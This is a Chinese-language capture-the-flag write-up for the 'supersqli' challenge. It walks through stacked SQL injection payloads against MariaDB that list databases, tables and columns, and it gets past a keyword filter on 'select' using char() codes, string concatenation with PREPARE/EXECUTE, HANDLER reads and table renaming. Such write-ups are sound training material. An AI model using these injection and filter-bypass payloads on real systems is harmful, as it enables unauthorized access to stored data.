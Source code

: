 # supersqli
题目看就是sql注入

提交 1' 出现

error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1

* 尝试堆叠注入

```sql
1'; show databases;#
```
看到 supersqli
继续注入
```sql
1';use supersqli;show tables;#
```
看到 表 1919810931114514  words
```sql
1';use supersqli;show columns from `1919810931114514`;#
```
看到 flag 
* 如果你有一个完全由数字组成的表名（尽管这不是一个好的实践），你可以使用反引号（`）在MySQL中，或者使用双引号（"）在SQL Server（需要设置ANSI_QUOTES为ON）或PostgreSQL中来引用它。请注意，Oracle数据库不支持使用双引号来引用标识符，除非你更改了默认的SQL模式。
```sql
1';use supersqli;select * from `1919810931114514`;#
得到
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`
```
可以看到 SELECT 被过滤
## 解法一 ASCII 码 绕过 SELECT
```python
for i in string:
    print(ord(i), end=",")
```
select ：  115,101,108,101,99,116

### payload
```
1';PREPARE a from concat(char(115,101,108,101,99,116), ' * from `1919810931114514` ');EXECUTE a;#
```
```
1';SET @sqli=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE a from @sqli;EXECUTE a;#
```
得到flag

## 解法二 concat s‘ ’elect 绕过
### payload
```
1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;#
```
得到flag

## 解法三 handle 
直接在后面拼接 ;handler 表名 open; handler 表名 read first;--+ 查看表中第一行数据 
### payload
```
1';
handler`1919810931114514`open as`a`;
handler`a`read first;--+
```
```
1';
handler`1919810931114514` open;
handler`1919810931114514`read next;
```
## 解法四 
* 使用`1' or 1 = 1 #` 看到全部内容 分析得知 words 用于 回显 

我们把1919810931114514这个表更改名字为words,并增加相应的字段，使之回显原1919810931114514这个表的内容。
### payload
第一步 修改表名
```
1';rename table `words` to `words1`;rename table `1919810931114514` to `words`;alter table `words` change `flag` `id` varchar(100) ;show columns from words;#
```
第二步 万能钥匙查看
```
1' or 1 = 1 #
```